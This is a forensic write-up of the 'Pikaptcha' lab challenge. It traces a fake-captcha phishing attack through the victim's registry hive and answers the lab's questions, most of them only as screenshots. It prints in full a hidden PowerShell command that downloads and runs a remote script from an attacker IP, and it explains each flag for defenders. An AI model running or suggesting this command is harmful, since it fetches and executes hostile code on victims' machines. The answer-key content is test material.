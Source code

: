 # Pikaptcha

![image](https://github.com/user-attachments/assets/e29f4a11-7ca9-4957-881f-859e6d749c7a)


> Write-up author: jon-brandy

## Lessons Learned:
1. Using registry explorer to load user's registry hive.
2. Reviewing malicious powershell that acts as a downloader.

## SCENARIO:
<p align="justify">Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.</p>

## STEPS:
1. In this case, we're tasked to investigate a recent phising attack.
2. A person named Happy Grunwald contacted Alonzo, a system administrator, regarding an issue with downloading the latest version of Microsoft Office.
3. Happy reported that he received an email instructing him to update Microsoft Office via a link. After clicking the link, he was prompted to solve a CAPTCHA, but no download page appeared afterward.
4. Recognizing this as a potential phishing attempt, Alonzo became suspicious of the attacker’s tactics. He contacted the security team, who promptly isolated the victim’s machine and provided us with network traffic data and endpoint artifacts for analysis.

![image](https://github.com/user-attachments/assets/8e6a4129-e597-4e74-8094-b4c111b3cf51)


> 1ST QUESTION --> ANS: `powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`

![image](https://github.com/user-attachments/assets/a78977c0-5c0a-48a5-8b36-473255407f4a)


5. We're given many registry hives and prefetch folder, it's kinda painful to analyze windows registry hives without knowing the context and location of what is our interest.
6. To review recently executed command, we can start analyzing from `RunMRU` registry key for **happy grunwald** user.
7. To analyze the registry hives I used `registry explorer`. But actually you can use `registry viewer` or just mount it using `winregfs`. To load the registry hive for user **happy grundwald**, simply load the `NTUSER.DAT` of **happy grundwald**.

![image](https://github.com/user-attachments/assets/7858c1ff-0032-44dd-9f25-eaa84c5689e5)


> RESULT IN REGISTRY EXPLORER

![image](https://github.com/user-attachments/assets/72e2be4e-ba96-4edc-a1ca-1f5427eb33c6)



8. Again, to reduce the pain by traverse the folder manually, instead we can use the search bar to find **RunMRU**.

![image](https://github.com/user-attachments/assets/bc3c7289-8ebd-4375-99fb-885d9f3873dc)


9. Notice that we found a powershell command execution from a remote source. This is a hint for a malicious activity.

> Malicious Powershell Script

```pwsh
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"\1
```

#### NOTES REGARDING THE POWERSHELL EXECUTION FOUND:

`-NoP` flag (No Profile), is used to prevent powershell from loading the user's profile scripts (it can be used to reduce startup time). `-Noni` (Non-Interactive) flag is used to run the powershell script in a non-interactive mode. `-W hidden` flag is used to hides the powershell window, thus making the executiion invisible to the user.

The biggest red flag is `-Exec Bypass`, this flag used to override the system's execution policy, allowing the script to run regardless of any policy settings that might prevent it. This flag is actually is the biggest red flag if it is executed by non legitimate user.

`-Command` flag is used to specify the powershell command, `IEX` (Invoke Expression) this cmdlet is used to evaluate or runs the expression passed to it. `(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')` this part creates a new web client object to download the script from the remote server and this script content is passed to IEX which runs it in the current powershell session.

In short, this powershell command is used to download a malicious powersell script file --> `office2024install.ps1`. 


11. Anyway if we correlate this with cyber kill chain stages, this stage is at the **installation** stage --> stage where the attacker tried to gain persistence.
12. Great! Simple as that now we identified the full command that was run to download and execute the stager.


> 2ND QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/ca12a9cd-dee8-4948-9431-11f2e50dd65e)

13. Again, we can identify the timestamp of the execution at the `registry explorer`. It is shown clear.

![image](https://github.com/user-attachments/assets/4f95b2d4-c53a-4bc7-a3cd-6643fde35cab)


> 3RD QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/672f5b38-997b-4467-a94d-1db9dc5a9676)


> 4TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/a0bf7148-2f6b-422d-bffb-22e92ccbb706)


> 5TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/4d9b46be-84f4-4669-aa44-9be1ce7f280b)


> 6TH QUESTION --> ANS:

![image](https://github.com/user-attachments/assets/13f0b3f6-8563-4606-b356-4dd0d806f481)


# IMPORTANT LINKS:

```

```
